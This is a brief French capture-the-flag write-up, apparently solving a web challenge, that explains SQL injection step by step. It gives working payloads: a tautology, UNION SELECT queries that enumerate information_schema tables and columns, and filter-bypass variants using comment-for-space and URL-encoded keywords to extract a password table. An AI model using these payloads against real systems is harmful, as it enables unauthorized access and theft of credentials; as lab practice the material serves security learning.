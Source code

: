 Pour la première table le OR nous met sur la piste d'une sql :
'OR true#

on récupère le téléphone et l'adresse

Pour la seconde table :
'UNION SELECT table_name,null FROM information_schema.tables#
'UNION SELECT column_name,null FROM information_schema.columns WHERE table_name="Users"#
'UNION SELECT nom,prenom FROM Users#

on récuère le nom et le prénom

Pour la dernière table on connnait d'après la 1ère table le code de l'opération:
OpérationGorfou on obtient la date et l'heure.

Pour le mot de passe nous devons bypass des filtres d'où le FILTER dans le titre de la page:
/\*\*/ pour bypass les espaces et %53NION pour bypass le UNION
'union/\*\*/%53elect/\*\*/table_name,null,null/\*\*/from/\*\*/information_schema.tables#
'union/\*\*/%53elect/\*\*/column_name,null,null/\*\*/from/\*\*/information_schema.columns/\*\*/where/\*\*/table_name="Password"#
'union/\*\*/%53elect/\*\*/mdp,null,null/\*\*/from/\*\*/Password#

on récupère le mot de passe
